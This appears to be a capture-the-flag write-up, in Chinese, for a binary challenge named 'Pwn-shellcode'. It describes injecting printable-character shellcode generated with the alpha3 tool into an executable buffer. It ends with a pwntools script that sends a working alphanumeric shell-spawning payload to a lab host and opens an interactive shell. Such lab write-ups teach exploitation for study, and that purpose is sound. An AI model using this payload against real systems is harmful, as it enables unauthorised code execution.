



# Pwn-shellcode

## 题意

给你一个`pwn.bin`文件

## 题解

checksec一下，发现有canary，但地址是写死的，利用IDA64进行反编译，整段代码里只有29行的v7函数比较有突破口，根据11行的定义，v7函数是一个0x1000大小的地址块，我们要在这个地址里存放shellcode。shellcode是人为传入的一段asm指令序列，程序在把控制流交到shellcode后，就可以按照攻击者预定好的指令顺序去执行自定义的指令。



我们需要使用工具将普通的shellcode转换为可见字符shellcode，然后将其注⼊到程序中执行。首先，我们需要下载并安装⼀个名为alpha3的工具，它可以将shellcode转换为可见字符shellcode。然后，我们可以使用alpha3工具将shellcode转换为可见字符形式。接下来，我们将可见字符shellcode作为payload注入到程序中。程序会将payload存储在栈上，并跳转到payload的起始地址执行。由于payload是可见字符shellcode，因此它可以绕过⼀些输入限制，并成功执行。利用如下代码即可得到flag


```python
from pwn import *

# 目标程序的地址信息
host = '172.17.0.13'
port = 10190
p = remote(host, port)

# 可见字符 Shellcode，由 ALPHA3 工具生成
payload = (
    b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
)

# 发送 Shellcode 并执行
p.sendlineafter(b">", payload)
p.interactive()

```